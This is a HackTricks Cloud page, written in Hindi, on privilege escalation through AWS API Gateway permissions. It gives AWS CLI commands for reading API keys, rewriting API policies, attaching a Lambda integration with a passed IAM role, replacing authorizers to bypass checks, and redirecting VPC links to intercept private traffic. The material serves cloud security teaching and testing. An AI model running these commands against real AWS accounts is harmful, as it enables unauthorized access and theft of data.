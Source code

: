 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के API कुंजी उत्पन्न कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिवेस्क नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के उत्पन्न API कुंजी प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** आप इस तकनीक के साथ प्रिवेस्क नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ, एक API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के संभावित उपयोग का दुरुपयोग कर सकें (जैसे कि एक कमजोर लैम्ब्डा को सक्रिय करना)। 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आप आमतौर पर इस तकनीक के साथ सीधे प्रिवेस्क नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` की अनुमति है, **एक मौजूदा API Gateway REST API में एक नया इंटीग्रेशन जोड़ सकता है जिसमें एक IAM भूमिका संलग्न Lambda फ़ंक्शन है**। फिर हमलावर **Lambda फ़ंक्शन को मनमाने कोड को निष्पादित करने के लिए ट्रिगर कर सकता है और संभावित रूप से IAM भूमिका से संबंधित संसाधनों तक पहुंच प्राप्त कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: Lambda फ़ंक्शन के IAM भूमिका से जुड़े संसाधनों तक पहुँच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` की अनुमति है, वह **एक मौजूदा API गेटवे ऑथराइज़र को संशोधित** कर सकता है ताकि सुरक्षा जांचों को बायपास किया जा सके या API अनुरोध किए जाने पर मनमाना कोड निष्पादित किया जा सके।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: सुरक्षा जांचों को बायपास करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास अनुमति `apigateway:UpdateVpcLink` है, **एक मौजूदा VPC लिंक को एक अलग नेटवर्क लोड बैलेंसर की ओर इंगित करने के लिए संशोधित कर सकता है, संभावित रूप से निजी API ट्रैफ़िक को अनधिकृत या दुर्भावनापूर्ण संसाधनों की ओर पुनर्निर्देशित कर सकता है**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफ़िक का अवरोध या बाधा।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
